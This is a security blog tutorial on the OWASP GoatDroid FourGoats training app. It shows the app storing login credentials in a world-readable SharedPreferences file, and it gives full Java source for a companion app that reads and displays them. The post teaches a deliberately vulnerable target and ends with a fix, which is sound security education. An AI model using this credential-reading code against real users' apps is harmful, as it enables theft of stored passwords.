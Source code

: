 +++
author = "pwntester"
categories = ["post"]
date = 2012-10-30T09:18:00Z
description = ""
draft = false
slug = "fourgoats-vulnerabilities-information-leakage-through-sharedpreferences"
tags = ["post"]
title = "FourGoats Vulnerabilities: Information Leakage through SharedPreferences"

+++

OK, so let start reviewing the FourGoats App.
First, If you havent done yet, clone the ForGoats repo from [github](https://github.com/jackMannino/OWASP-GoatDroid-Project/tree/FourGoats) to get the source code.

Try to get an idea of how does the app work, install it in your device and/or emulator and get familiar with the different activities and application flow.

Open the Main activity and check what its doing. Basically, its looking for a sessionToken and if she cannot find it, it will start the Login Activity, otherwise it will take the user to the Home or AdminHome activities.

Lets review the Login activity.</p><p>The first thing that looks really weird is:

```
SharedPreferences prefs = getSharedPreferences("credentials", MODE_WORLD_READABLE);
```

So the app is storing the user credentials under a World Readable SharedPreferences file that will be accessible in: `/data/data/org.owasp.goatdroid.fourgoats/shared-prefs/credentials.xml`

So any application installed on your device will be able to read these credentials. Lets write a sample app that retrieve that info and show it on the display. I will hold these apps in gitHub on the following repo: [https://github.com/pwntester/OWASP-GoatDroid-Dolphis](https://github.com/pwntester/OWASP-GoatDroid-Dolphis)

Why dolphins?? well because they are not malware, just dolphins LOL

![](/images/octopress/2a187-images-jpeg-scaled500.jpg)

Ok, so create a new Android app in your IDE of choice (I will be using Eclipse) and use the MainActivity onCreate method to get the FourGoats application context and read its sharedPreferences:

```
@Override
public void onCreate(Bundle savedInstanceState) {
	super.onCreate(savedInstanceState);
	setContentView(R.layout.activity_main);
	Context fourgoatsAppContext = null;
	try {
		fourgoatsAppContext = createPackageContext("org.owasp.goatdroid.fourgoats", Context.CONTEXT_IGNORE_SECURITY);
	} catch (NameNotFoundException e) {
	}
	SharedPreferences sPrefs = fourgoatsAppContext.getSharedPreferences("credentials", Context.MODE_WORLD_READABLE);
	String passwd = sPrefs.getString("password", "");
	Map<String, ?> prefs = (Map<String, String>) sPrefs.getAll();
	String credentials = "OWASP FourGoats Credentials:\r\n";
	for (Map.Entry<String, ?> entry : prefs.entrySet()) {
		credentials = credentials + "Key : " + entry.getKey() + " Value : " + entry.getValue().toString() + "\r\n";
	}
	TextView text = new TextView(this);
	text.setText(credentials);
	setContentView(text);
}
```

You can find the app source code [here](https://github.com/pwntester/OWASP-GoatDroid-Dolphis/tree/master/Dolphin%20SharedPreferences%20Reader)

Ok, so now you can start the fourgoats application and log in with your user.

If you start the sharedPreferences dolphin anytime after, you will be able to access the FourGoats credentials and you will get something like:

![](/images/octopress/a4c8d-39-scaled1000.png)

Note: The credentials will only be available if the user checked the "Remember me" checkbox

The secure coding recommendations for this vulnerability are quite simple: Dont store sensitive data in any WORLD_READABLE sharedPreference object!

Soon more vulnerabilities :)

Enjoy!
